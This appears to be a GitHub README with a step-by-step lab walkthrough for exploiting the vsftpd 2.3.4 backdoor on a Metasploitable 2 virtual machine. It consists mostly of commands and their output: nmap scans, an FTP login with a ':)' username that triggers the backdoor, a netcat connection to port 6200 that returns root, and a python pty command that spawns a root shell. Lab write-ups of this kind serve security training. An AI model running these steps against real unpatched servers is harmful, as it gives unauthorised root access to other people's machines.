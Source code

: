 # vsftpd manual exploit metasploitable
manual exploit of vsftpd service on metasplotiable 

exploting metasplotiable service vftpd using a smiley as the username to authenticate,Assuming you have the Metasploitable 2 virtual machine installed and running.

first use namp to scan all the ports 

$ nmap -p- -sV "ip of metasplotiable machine"

	```PORT      STATE SERVICE     VERSION
	21/tcp    open  ftp         vsftpd 2.3.4
	22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp    open  telnet      Linux telnetd
	25/tcp    open  smtp        Postfix smtpd
	53/tcp    open  domain      ISC BIND 9.4.2
	80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp   open  rpcbind     2 (RPC #100000)
	139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp   open  exec        netkit-rsh rexecd
	513/tcp   open  login
	514/tcp   open  tcpwrapped
	1099/tcp  open  rmiregistry GNU Classpath grmiregistry
	1524/tcp  open  bindshell   Metasploitable root shell
	2049/tcp  open  nfs         2-4 (RPC #100003)
	2121/tcp  open  ftp         ProFTPD 1.3.1
	3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
	3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
	5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp  open  vnc         VNC (protocol 3.3)
	6000/tcp  open  X11         (access denied)
	6667/tcp  open  irc         UnrealIRCd
	6697/tcp  open  irc         UnrealIRCd
	8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
	8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
	8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
	35479/tcp open  status      1 (RPC #100024)
	43348/tcp open  mountd      1-3 (RPC #100005)
	51753/tcp open  nlockmgr    1-4 (RPC #100021)
	58641/tcp open  rmiregistry GNU Classpath grmiregistry```
  
# here you will see that there is vsftpd port 21 is open 

and after using namp command to see is port number 6200 is open or not ? using nmap command to see the 6200 port status 
            
            
nmap -p6200 "ip of metasplotable machine"
			
``` 
PORT     STATE  SERVICE
6200/tcp closed lm-x
MAC Address: 08:00:27:C4:54:97 (Oracle VirtualBox virtual NI
Read data files from: /usr/bin/../share/Nmap 
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
Raw packets sent: 2 (72B) | Rcvd: 2 (68B)
```
you will get to see that the port is closed.....
and then we try reverse natcat connection using port 6200 
 
# nc "ip of metasplotiable machine" 6200
```
(UNKNOWN) [192.168.29.144] 6200 (?) : Connection refused

````
you will get the response as shown above CONNECTION REFUSED because the port was closed,so let's try other way to get in....
trying natcat on port number 21 

# nc "ip of metasplotiable machine" 21 -v
````
192.168.29.144: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.29.144] 21 (ftp) open
220 (vsFTPd 2.3.4
user ksahfhkdbf:) (can use any user name)
{NOTE --->(take any user name but, use :) at the end or at the middle of username it's a malicious code)}    
331 Please specify the password.
pass sakfb (can use any pass)
````
								            
#   MALICIOUS CODE DETAILS      					  
``` 
0x3a = :
0x29 = )
0x3a followed by 0x29 which represents the smiley face :) characters. When the username contains both characters the else if statement executes the vsf_sysutil_extra function,code uses the structure to setup a bind socket and a listener process to listen on the socket for incoming connections. Note  that this code is run in the server context, so the server is setting up the bind socket and listener which is used by the remote attacker for setting up a connection shell to anyone connect to the server on port 6200.}
`````
	 

 and the when we cheak the status of port 6200 
		
# 	nmap -p6200 "ip of metasplotiable machine"
   
```` 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-23 11:35 GMT
Nmap scan report for 192.168.29.144
host is up (0.00053s latency).
PORT     STATE SERVICE
6200/tcp open  lm-x
MAC Address: 08:00:27:C4:54:97 (Oracle VirtualBox virtual NIC)
nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
````

 as we see the port gets open WOW :P
and then using nc command on metaspolitable at the port 6200
 				
# nc "ip of machine" 6200 
 then type id to see which user we got using nc
``` id
 	  uid=0(root) gid=0(root)
````
and for taking a shell use python command 

# python -c 'import pty;pty.spawn("/bin/bash")'
  after using this command you will get a shell 
			
``` 			
python -c 'import pty;pty.spawn("/bin/bash")'
root@metasploitable:/# ls
ls
bin    dev   initrd      lost+found  nohup.out  root  sys  var
boot   etc   initrd.img  media       opt        sbin  tmp  vmlinuz
cdrom  home  lib         mnt         proc       srv   usr
root@metasploitable:/# 
```
 as we can see we have successfully taken the shell of root,
thankyou....
